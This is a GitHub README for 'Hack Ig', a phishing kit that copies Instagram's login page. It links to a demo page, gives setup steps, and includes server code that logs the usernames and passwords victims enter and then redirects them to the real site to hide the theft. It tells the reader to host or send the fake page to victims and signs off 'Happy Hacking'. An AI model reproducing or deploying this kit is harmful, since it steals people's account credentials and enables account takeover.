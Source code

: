# Hack Ig

Phish Instagram Account 

This will contain a server file and index file [ instagram login page ]

Wan't a demo ?? 
https://fadhilsaheer.github.io/hack-ig/

above link is the demo of static page


## Setup



Install node_modules

You should need node js and npm for running server

```javascript
npm install
```



Host or send html file [ index.html ]

you will get the username and password if victim enter details

```javascript
// code from server
app.get("/login", async(req, res) => {
  let username = await req.query.username;
  let password = await req.query.password;

  console.log(`${username} : ${password}`); // show username and password in console

  // do whatever with these
  
  res.redirect("http://instagram.com");//redirect as your wish
});
```



Happy Hacking 🐱‍💻
